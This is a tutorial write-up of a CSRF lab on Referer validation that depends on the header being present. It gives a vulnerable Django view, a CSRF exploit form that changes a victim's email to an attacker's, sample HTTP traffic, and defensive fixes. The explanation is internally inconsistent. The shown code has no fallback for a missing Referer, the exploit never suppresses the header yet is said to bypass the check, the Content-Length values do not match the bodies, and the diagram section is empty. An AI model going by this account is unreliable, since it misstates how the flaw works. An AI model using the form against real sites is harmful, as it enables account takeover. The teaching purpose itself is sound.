

## Lab 7: CSRF Where Referer Validation Depends on Header Being Present

In this lab, we will explore a specific type of CSRF vulnerability where the web application attempts to block cross-domain requests based on the presence of the `Referer` header. However, the implementation has an insecure fallback mechanism that can be exploited.

### Background Theory

The `Referer` header is used by browsers to indicate the URL of the page from which a request originated. Web applications often use this header to determine whether a request is coming from a trusted domain. However, relying solely on the `Referer` header for CSRF protection is not sufficient because it can be manipulated or omitted.

### Vulnerable Parameter: Email Change Functionality

In this lab, the email change functionality is vulnerable to CSRF. The web application attempts to block cross-domain requests by checking the `Referer` header. However, it has an insecure fallback mechanism that allows the attack to succeed.

#### Code Example: Vulnerable Email Change Functionality

```python
def change_email(request):
    if request.method == 'POST':
        new_email = request.POST.get('email')
        referer = request.META.get('HTTP_REFERER')

        if referer and referer.startswith('https://trusted-domain.com'):
            # Change the email
            user.email = new_email
            user.save()
            return HttpResponse("Email changed successfully")
        else:
            return HttpResponseForbidden("Invalid referer")

    return render(request, 'change_email.html')
```

### Exploiting the Insecure Fallback Mechanism

To exploit the insecure fallback mechanism, the attacker needs to craft a malicious request that bypasses the `Referer` check. This can be done by hosting an HTML page on an untrusted domain that triggers the email change functionality.

#### Complete Exploit Example

1. **HTML Page on Untrusted Domain**

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <form action="https://trusted-domain.com/change-email" method="POST">
        <input type="hidden" name="email" value="attacker@example.com">
        <button type="submit">Change Email</button>
    </form>
</body>
</html>
```

2. **Triggering the Attack**

The attacker can trick the victim into visiting the untrusted domain, which contains the form. When the victim submits the form, the request is sent to the trusted domain, bypassing the `Referer` check.

### Full HTTP Request and Response

#### HTTP Request

```http
POST /change-email HTTP/1.1
Host: trusted-domain.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

email=attacker%40example.com
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Nov 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 28
Content-Type: text/html

Email changed successfully
```

### Mermaid Diagram: Attack Flow



### How to Prevent / Defend Against CSRF

#### Detection

To detect CSRF vulnerabilities, you can use automated tools like Burp Suite or OWASP ZAP. These tools can help identify endpoints that are susceptible to CSRF attacks.

#### Prevention

1. **Use CSRF Tokens**
   - Generate a unique token for each session and include it in both the form and the server-side validation.
   - Ensure that the token is validated on the server side.

2. **Secure Coding Fixes**

   **Vulnerable Code:**

   ```python
   def change_email(request):
       if request.method == 'POST':
           new_email = request.POST.get('email')
           referer = request.META.get('HTTP_REFERER')

           if referer and referer.startswith('https://trusted-domain.com'):
               user.email = new_email
               user.save()
               return HttpResponse("Email changed successfully")
           else:
               return HttpResponseForbidden("Invalid referer")

       return render(request, 'change_email.html')
   ```

   **Fixed Code:**

   ```python
   def change_email(request):
       if request.method == 'POST':
           new_email = request.POST.get('email')
           csrf_token = request.POST.get('csrfmiddlewaretoken')

           if csrf_token == request.session['csrf_token']:
               user.email = new_email
               user.save()
               return HttpResponse("Email changed successfully")
           else:
               return HttpResponseForbidden("Invalid CSRF token")

       return render(request, 'change_email.html', {'csrf_token': request.session['csrf_token']})
   ```

3. **Configuration Hardening**

   - Ensure that the `Referer` header is not relied upon for CSRF protection.
   - Implement additional checks such as same-origin policy enforcement.

4. **Mitigations**

   - Use Content Security Policy (CSP) to restrict the sources of content that can be loaded.
   - Implement HTTP Strict Transport Security (HSTS) to ensure that connections are always encrypted.

### Practice Labs

For hands-on practice with CSRF vulnerabilities, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs that cover various aspects of web security, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application that includes several CSRF vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application that includes CSRF vulnerabilities for educational purposes.

By thoroughly understanding and practicing these concepts, you can effectively defend against CSRF attacks and ensure the security of web applications.

---
<!-- nav -->
[[02-Lab 7 CSRF Exploitation Using Referer Header Validation|Lab 7 CSRF Exploitation Using Referer Header Validation]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/08-Lab 7 CSRF where Referer validation depends on header being present/00-Overview|Overview]] | [[04-Crafting the Malicious Request|Crafting the Malicious Request]]
